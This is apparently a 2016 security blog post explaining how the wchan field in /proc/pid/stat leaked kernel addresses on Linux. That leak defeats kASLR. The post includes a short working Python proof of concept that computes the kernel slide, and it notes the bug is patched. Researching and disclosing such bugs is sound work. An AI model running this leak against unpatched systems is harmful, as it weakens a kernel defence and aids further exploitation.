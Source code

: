 ```yaml
---
layout: post
title:  "Exploiting a Linux Kernel Infoleak to bypass Linux kASLR"
date:   2016-01-24 13:00:00 +0800
categories: security linux
---
```


## Preliminary note

This has been patched here so there should be no problem talking about it: [http://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/?id=b2f73922d119686323f14fbbe46587f863852328](http://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/?id=b2f73922d119686323f14fbbe46587f863852328)

Also kASLR is not enabled yet by default on popular distribution as far as I know.

I hope that in the recent future it will become mainstream, and much stronger, both on Linux distros and Android devices, since it makes kernel exploitation likely to require also a infoleak, and the other popular mainstream OS like Windows or OS X/iOS are already adopting it, why Linux is always lagging behind?

ASLR anyway it's not the holy grail of security, as we will see in the post, it can be bypassed even with a simple leak. 
You can read [this post][spender-forum] by spender on the topic and some thoughts about the limitations.

I saw several time [@grsecurity][grsecurity-twitter] mentioning a similar vulnerability on Twitter, so it was most likely very well known also by other people before me. 
But unfortunately, the Linux kernel community attitude towards Security is not the best one, so infoleaks are probably getting very low attention, if any.

### Post

Time ago while reading on /proc filesystem for Android, the `wchan` field caught my attention:

{% highlight text %}
WCHAN

wait channel. The address of an event on which a particular process is waiting.
Abbreviation appears in output of ps command with -l option.
{% endhighlight %}

You can peek into a process `wchan` value from userspace reading into `/proc/pid_of_interest/stat`.

So this `wchan` value will return the address of where our program is "waiting". That's pretty vague. What about if our process is in kernel space, will it return us a kernel address?

The answer is yes, as you can see here:

{% highlight text %}
marco@marco-l:~/Documents$ cat /proc/2755/stat
2755 (sleep) S 2499 2755 2499 34817 2759 1077960704 124 0 0 0 0 0 0 0 20 0 1 0 82435 11673600 170 18446744073709551615 4194304 4218740 140722592633520 140722592633144 140073761328928 0 0 0 0 18446744071579755915 0 0 17 1 0 0 0 0 0 6319632 6320692 32489472 140722592637401 140722592637415 140722592637415 140722592641005 0
{% endhighlight %}

The value `18446744071579755915` it's obviously a kernel code location since in hex is: 

{% highlight python %}
>>> hex(18446744071579755915)
'0xffffffff810de58bL'
{% endhighlight %}

kASLR is not enabled by default on Ubuntu, at least 14.04, so we will have to add a "kaslr" to the kernel command line to enable it, you can find how to add stuff into the kernel command line on Google.

After we have booted the system, we can run our PoC:

{% highlight text %}
marco@marco-l:~/Documents$ python infoleak.py 
Leaking kernel pointers...
leak: 0xffffffffb70de58b 18446744072485725579
kASLR slide: 0x36000000
{% endhighlight %}

#### How does it works?

The PoC is very simple, dirty and quick, and in python since we just need to fork and read stuff. Like we said before, in /proc/pid/stat the wchan will tell us where the code is waiting in kernel space so we can:

1. Find a way to make stable this "wait" location
2. Leak the ASLR'd value via the wchan
3. Diff this leaked value with a known non slided value
4. Output the kernel slide

For `(1)` we can leverage that if we fork a process and make it sleep, we can both read his `/proc/sleeping-pid/stat` and it will be a stable value, since that process will be stuck to sleep in kernel space, waiting to be rescheduled when his sleep is finished.

`(2)` was already covered how to do it, it's one of the fields in the stat at a known position.

`(3)` we can get the non slid value by running the kernel without kASLR enabled on our test machine.

#### PoC

You will have to edit the `NON_SLID_VALUE` by running the PoC on your target kernel with kASLR disabled, putting the hex value that you get in `leak: 0xffffffffb70de58b`.

{% highlight python %}
import subprocess
import time
import sys

import pprint

PROC_PATH = "/proc/%d/stat"

NON_SLID_VALUE = 0xffffffff810de58b

def main():
    sleepp = subprocess.Popen('sleep 100000'.split())

    time.sleep(1)

    child_pid = sleepp.pid

    content = None
    with open(PROC_PATH %(child_pid), 'r') as f:
        content = f.read()
    
    if not content:
        print 'Unable to read stat from child'
        sys.exit(0)

    elements = content.split()

    print 'Leaking kernel pointers...'

    leak = int(elements[34])

    print 'leak: 0x%x %d' %(leak, leak)

    print 'kASLR slide: 0x%x' %(leak - NON_SLID_VALUE)


if __name__ == '__main__':
    main()

{% endhighlight %}

## Final Note

Feel free to contact me if there is any error/mistake/question or suggestion. 
The bug nowadays since kASLR is not enabled by default was not really useful so I didn't spend much time and efforts verifying everything and check the kernel code.

The kASLR slide seems quite weak in terms of randomization, I haven't checked how much bits, but it's better than nothing if we can get this on our Android devices, it's a start. :)

#### Take aways:
- The Linux kernel maintainers should show a more friendly attitude to the security community, at the end we all like and use Linux, and we would both like to make it even better.

[spender-forum]: https://forums.grsecurity.net/viewtopic.php?f=7&t=3367
[grsecurity-twitter]: https://twitter.com/grsecurity
